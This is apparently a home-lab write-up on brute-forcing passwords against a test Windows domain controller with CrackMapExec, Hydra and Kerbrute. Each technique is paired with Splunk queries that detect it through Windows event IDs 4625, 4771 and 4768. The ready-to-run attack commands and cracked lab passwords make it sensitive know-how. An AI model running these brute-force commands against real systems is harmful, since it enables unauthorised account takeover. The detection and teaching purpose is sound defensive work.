






# Phase 1 — Password Brute Forcing

Part of the [Splunk SOC Home Lab](../) series. This phase covers three password brute-forcing
techniques against a Windows Server Domain Controller, and how each one is detected in Splunk
using Windows Event Logs.

## Contents
- [Environment](#environment)
- [Techniques Covered](#techniques-covered)
- [Quick Reference — Event IDs](#quick-reference--event-ids)
- [1. SMB Password Brute Force](#1-smb-password-brute-force)
- [2. RDP Password Brute Force](#2-rdp-password-brute-force)
- [3. Kerberos Pre-Auth Brute Force (Kerbrute)](#3-kerberos-pre-auth-brute-force-kerbrute)
- [Lessons Learned](#lessons-learned)

---

## Environment

| Role | Host | IP |
|---|---|---|
| Domain Controller | `WIN-11AN9QVN6Q3` (Windows Server, AD DS) | `192.168.56.101` |
| Attacker | Kali Linux | `192.168.56.103` |
| SIEM | Splunk Enterprise | — |

---

## Techniques Covered

| # | Technique | Tool | MITRE ATT&CK |
|---|---|---|---|
| 1 | SMB Password Brute Force | CrackMapExec | [T1110.001](https://attack.mitre.org/techniques/T1110/001/) |
| 2 | RDP Password Brute Force | Hydra | [T1110.001](https://attack.mitre.org/techniques/T1110/001/) |
| 3 | Kerberos Pre-Auth Brute Force | Kerbrute | [T1110.001](https://attack.mitre.org/techniques/T1110/001/) / [T1558.003](https://attack.mitre.org/techniques/T1558/003/) |

---

## Quick Reference — Event IDs

| Event ID | What it shows | Logged by default? |
|---|---|---|
| 4625 | Failed logon (SMB / RDP) | ✅ Yes |
| 4768 | Kerberos TGT requested — `Result_Code=0x0` = success, `0x18` = bad password | ✅ Yes |
| 4771 | Kerberos pre-authentication failed — fired per failed Kerberos attempt | ✅ Yes |

---

## 1. SMB Password Brute Force

**MITRE ATT&CK:** [T1110.001](https://attack.mitre.org/techniques/T1110/001/)

### Objective
Try many candidate passwords against a domain account over SMB (port 445) until one succeeds.
CrackMapExec prints `STATUS_LOGON_FAILURE` for each failure and `Pwn3d!` on a successful
authentication, confirming full SMB admin access in a single line.

### Step 1 — Run the Attack

```bash
crackmapexec smb 192.168.56.101 -u Administrator -p passwords.txt
```

> **Result:** `exbugz0d.org\Administrator:Ahmedalsiddig123 (Pwn3d!)` — full SMB admin access confirmed.



### Step 2 — Detect it in Splunk

Each failed attempt generates **Event ID 4625** in the Security log.

```spl
# Quick source IP triage
index=wineventlog EventCode=4625
| stats count by src_ip
| sort -count
```

```spl
# Full timeline breakdown by account + IP
index=wineventlog EventCode=4625
| bin _time span=2m
| stats count as Attempts, earliest(_time) as first_attempt,
  latest(_time) as last_attempt by Account_Name, src_ip
| sort -Attempts
```



> `192.168.56.103` generated 5 failures within a 1-minute window — a clear automated
> brute-force signature from a single source IP.

### False Positives
A handful of 4625s is normal (typos, stale cached credentials). Alert on **high volume from a
single source IP in a short window**, not on isolated failures.

[⬆ Back to top](#contents)

---

## 2. RDP Password Brute Force

**MITRE ATT&CK:** [T1110.001](https://attack.mitre.org/techniques/T1110/001/)

### Objective
Brute force Remote Desktop credentials directly against port 3389. Even if the target account
does not have the "Allow log on through Remote Desktop Services" right, Hydra still identifies
the correct password — *"account not active for remote desktop"* means the credential is valid,
the account just lacks the RDP permission.

### Step 1 — Run the Attack

```bash
hydra -l ahmed -P passwords.txt rdp://192.168.56.101
```

> **Result:** `login: ahmed password: P@ssw0rd` — credential confirmed valid, RDP not enabled
> for this account but the password is correct.



### Step 2 — Detect it in Splunk

Each Hydra connection attempt generates **Event ID 4625 Logon Type 10** (RemoteInteractive).
Filter by logon type to separate RDP failures from SMB failures.

```spl
index=wineventlog EventCode=4625 Logon_Type=10
| stats count by src_ip, Account_Name
| sort -count
```



> The 5-minute window shows `ahmed` from `192.168.56.103` with 18 attempts — consistent with
> Hydra's automated connection pattern.

### False Positives
Users mistyping their own password on a login screen generate a few Logon Type 10 failures.
Alert on **volume and velocity** (many attempts per minute from one IP), not isolated failures.

[⬆ Back to top](#contents)

---

## 3. Kerberos Pre-Auth Brute Force (Kerbrute)

**MITRE ATT&CK:** [T1110.001](https://attack.mitre.org/techniques/T1110/001/) / [T1558.003](https://attack.mitre.org/techniques/T1558/003/)

### Objective
Brute force passwords via Kerberos pre-authentication (port 88). Faster and quieter than SMB
or RDP since it communicates directly with the KDC. A detection watching only for **Event ID
4625 would miss Kerbrute entirely** — it generates **4771** instead.

### Step 1 — Run the Attack

```bash
# Target Administrator (0 successes — password not in wordlist)
kerbrute bruteuser -d exbugz0d.org --dc 192.168.56.101 passwords.txt Administrator

# Target ahmed (1 success)
kerbrute bruteuser -d exbugz0d.org --dc 192.168.56.101 passwords.txt ahmed
```

> **Result:** `Administrator` — 0 successes. `ahmed` — `[+] VALID LOGIN: ahmed@exbugz0d.org:P@ssw0rd` ✅
>
> **Note on clock skew:** if Kerbrute shows `VALID LOGIN WITH ERROR: (Clock skew is too great)`,
> the password is confirmed correct — Kerberos just rejected the ticket because the attacker
> box clock was more than 5 minutes out of sync with the DC. Fix with
> `ntpdate 192.168.56.101` before phases that need a working Kerberos ticket.



### Step 2 — Detect it in Splunk

Each failed Kerbrute attempt generates **Event ID 4771** (Kerberos pre-auth failed).
A successful attempt generates **Event ID 4768** with `Result_Code=0x0`.

```spl
# 4771 spike — both accounts targeted from one IP
index=wineventlog EventCode=4771
| stats count by src_ip, Account_Name
| where count > 5
```

```spl
# 4768 success — confirm the cracked credential
index=wineventlog EventCode=4768 Account_Name=ahmed Result_Code=0x0
| table _time, EventCode, Account_Name, Client_Address
```



> 62 total events — `Administrator` 32 failures, `ahmed` 30 failures, all from `192.168.56.103`.
> Zero 4768 success events for `Administrator` confirms its password was not in the wordlist,
> consistent with Kerbrute's 0 successes output.

### False Positives
A few stray 4771s happen from stale cached credentials on domain-joined machines. Alert on
**many 4771s per minute from one source IP across one or more accounts**, not isolated failures.

[⬆ Back to top](#contents)

---

## Lessons Learned

- **CrackMapExec SMB** is the fastest, most informative brute-force tool for AD environments —
  it fingerprints the target OS, confirms SMB signing status, and gives a clear `Pwn3d!` on success.
- **RDP brute force** can find valid credentials even when the account doesn't have RDP access —
  *"account not active for remote desktop"* still means the password is correct.
- **Kerbrute generates 4771, not 4625.** A detection watching only for 4625 would miss it
  entirely. Always pair 4771 (failure) with 4768 `Result_Code=0x0` (success) for the full picture.
- **Clock skew matters** for Kerberos-based attacks — confirm `ntpdate` sync with the DC before
  moving to later phases that need a working ticket.

[⬆ Back to top](#contents)
